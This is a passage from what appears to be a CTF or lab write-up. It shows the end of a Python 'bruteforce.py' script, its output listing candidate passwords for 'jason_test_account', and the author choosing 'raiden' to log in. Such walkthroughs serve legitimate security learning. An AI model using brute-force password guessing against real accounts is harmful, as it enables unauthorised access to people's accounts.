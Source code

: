 ```python
 print("[+] You can use these passwords:")
 for pwd in results:
 print(pwd)
 else:
 print("No matches found.")

```


We get:

```
python3 bruteforce.py
[+] You can use these passwords:
violet
gymnastics
chingy
sugarplum
raiden
122187
stokes
080884
021105
BLONDIE
```

Ok, a bunch of passwords can be used for `jason_test_account`, let's use `raiden`:


![Pasted image 20250609152202.png](../../IMAGES/Pasted%20image%2020250609152202.png)

![Pasted image 20250609152210.png](../../IMAGES/Pasted%20image%2020250609152210.png)
